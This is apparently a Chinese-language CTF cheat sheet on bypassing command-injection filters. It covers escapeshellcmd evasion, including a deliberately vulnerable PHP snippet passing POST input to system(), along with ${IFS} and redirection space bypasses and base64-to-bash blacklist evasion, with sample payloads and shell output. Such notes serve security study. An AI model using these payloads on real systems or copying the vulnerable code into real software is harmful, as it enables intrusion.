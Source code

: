 # 绕过escapeshellcmd
## 法一：执行bat
```
<?php
    $command = 'dir '.$_POST['dir'];
    $escaped_command = escapeshellcmd($command);
    var_dump($escaped_command);
    file_put_contents('out.bat',$escaped_command);
    system('out.bat');
?>
```
执行.bat文件的时候，利用%1a，可以绕过过滤执行命令。
payload:
```
dir=../ %1a whoami
```
## 法二：宽字节注入
php5.2.5及之前可以通过输入多字节来绕过。现在几乎见不到了。
```
escapeshellcmd("echo ".chr(0xc0).";id"); 
```
之后该语句会变成
```
echo 繺;id 
```
从而实现 id 命令的注入。

# 空格过滤
## 法一： ${IFS}
payload1:
```
ubuntu@VM-207-93-ubuntu:~$ cat flag
nice day
ubuntu@VM-207-93-ubuntu:~$ cat${IFS}flag
nice day
```
payload2:
```
ubuntu@VM-207-93-ubuntu:~$ cat${IFS}$9flag
nice day
```
payload3:
```
ubuntu@VM-207-93-ubuntu:~$ cat$IFS$9flag
nice day

```
## 法二： 重定向符<>
payload1：
```
ubuntu@VM-207-93-ubuntu:~$ cat<>flag
nice day
```
payload2：
```
ubuntu@VM-207-93-ubuntu:~$ cat<flag
nice day
```

# 黑名单绕过
## 法一： 拼接
```
ubuntu@VM-207-93-ubuntu:~$ a=c;b=at;c=flag;$a$b $c
nice day
```
## 法二： 利用已存在的资源
从已有的文件或者环境变量中获得相应的字符。

## 法三： base64编码
payload1:
```
ubuntu@VM-207-93-ubuntu:~$ `echo "Y2F0IGZsYWc="|base64 -d`
nice day
```
payload2:
```
ubuntu@VM-207-93-ubuntu:~$ echo "Y2F0IGZsYWc="|base64 -d|bash
nice day
```

# 无回显

# 长度限制

# LINUX下一些已有字符
+ ${PS2} 对应字符 '>'
+ ${PS4} 对应字符 '+'
+ ${IFS} 对应 内部字段分隔符
+ ${9}   对应 空字符串

# 工具
+ [shelling
](https://github.com/ewilded/shelling)
# Refference
+ [PHP绕过open_basedir列目录的研究](https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html)
+ [eval长度限制绕过 && PHP5.6新特性](https://www.leavesongs.com/PHP/bypass-eval-length-restrict.html)
+ [关于lnmp目录禁止执行的绕过与正确方法](https://www.leavesongs.com/PENETRATION/nginx-deny-exec-php-file.html)
+ [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
+ [php webshell分析和绕过waf技巧](http://bobao.360.cn/learning/detail/3271.html)
+ [【技术分享】命令执行和绕过的一些小技巧](http://bobao.360.cn/learning/detail/3192.html)
+ [浅谈CTF中命令执行与绕过的小技巧](http://www.freebuf.com/articles/web/137923.html)
+ [Mathias:命令执行的bypass技巧](http://www.math1as.com/index.php/archives/484)